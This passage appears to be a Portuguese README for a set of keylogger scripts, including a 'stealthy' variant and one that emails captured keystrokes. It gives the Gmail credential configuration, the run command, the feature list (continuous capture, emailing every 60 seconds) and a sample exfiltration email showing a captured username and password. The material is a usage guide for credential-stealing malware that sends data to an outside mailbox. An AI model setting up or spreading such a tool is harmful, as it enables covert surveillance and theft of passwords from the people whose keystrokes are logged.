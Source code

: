 O script `Keylogger_Email.py` implementa captura de teclas com envio automático por e-mail.

**Configuração:**

Edite o arquivo `Keylogger_Email.py` e configure as credenciais:

```python
EMAIL_ORIGEM = "seu_email@gmail.com"
SENHA_EMAIL = "sua_senha_app"
EMAIL_DESTINO = "destino@gmail.com"
```

**Para Gmail:**

1. Ativar autenticação de dois fatores
2. Gerar senha de app: https://support.google.com/accounts/answer/185833
3. Usar a senha de app no script

**Uso:**

```bash
python Keylogger_Email.py
```

**Funcionalidades:**

- Captura de teclas contínua
- Envio automático por e-mail a cada 60 segundos
- Formatação HTML das mensagens
- Tratamento de erros de conexão
- Envio de dados restantes ao finalizar

**Exemplo de E-mail Enviado:**

```
Assunto: Dados Capturados - 2025-10-22 14:30:45

Dados Capturados pelo Keylogger
Data/Hora: 2025-10-22 14:30:45
Quantidade de Teclas: 245

Conteúdo Capturado:
usuario123
senha_secreta
Email: usuario@empresa.com
...
```

---

## 📊 Arquivos de Log

Os scripts geram arquivos de log contendo as teclas capturadas:

| Arquivo | Script | Conteúdo |
|---------|--------|----------|
| `log.txt` | Keylogger.py | Teclas capturadas básicas |
| `log_furtivo.txt` | Keylogger_Furtivo.py | Teclas capturadas furtivas |
| `log_email.txt` | Keylogger_Email.py | Teclas capturadas com e-mail |

